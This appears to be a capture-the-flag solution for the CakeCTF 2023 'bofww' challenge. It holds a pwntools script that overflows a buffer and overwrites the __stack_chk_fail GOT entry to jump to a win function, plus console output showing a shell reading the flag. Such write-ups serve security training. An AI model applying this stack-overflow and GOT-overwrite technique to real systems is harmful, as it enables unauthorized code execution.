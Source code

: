 ```python
#!/usr/bin/env python3

# type: ignore
# flake8: noqa

from pwn import *

elf = context.binary = ELF("./bofww", checksec=False)


def start(argv=[], *a, **kw):
    nc = "nc bofww.2023.cakectf.com 9002"
    nc = nc.split()
    host = args.HOST or nc[1]
    port = int(args.PORT or nc[2])
    if args.REMOTE:
        return remote(host, port)
    else:
        return process([elf.path] + argv, env=env, *a, **kw)


env = {}
io = start()

win = 0x4012f6
stack_chk_fail_got = elf.got["__stack_chk_fail"]
payload = b""
payload += p64(win)
payload = payload.ljust(0x130, b"\x00")
payload += flat(
    stack_chk_fail_got,
    0,
    0x3  # std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >::_M_replace(unsigned long, unsigned long, char const*, unsigned long)+0x4a --> need to be >= strlen(_name)  # noqa
)
io.sendline(payload)
io.sendline(b"1337")

io.interactive()
```

```console
$ ./solve.py
[*] Switching to interactive mode
What is your first name? How old are you? $ ls
Dockerfile  docker-compose.yml    libstdc++.so.6.0.32  readme.md
bofww        flag.txt        main.cpp         solve.py
$ cat flag.txt
CakeCTF{n0w_try_w1th0ut_w1n_func710n:)}
$
```
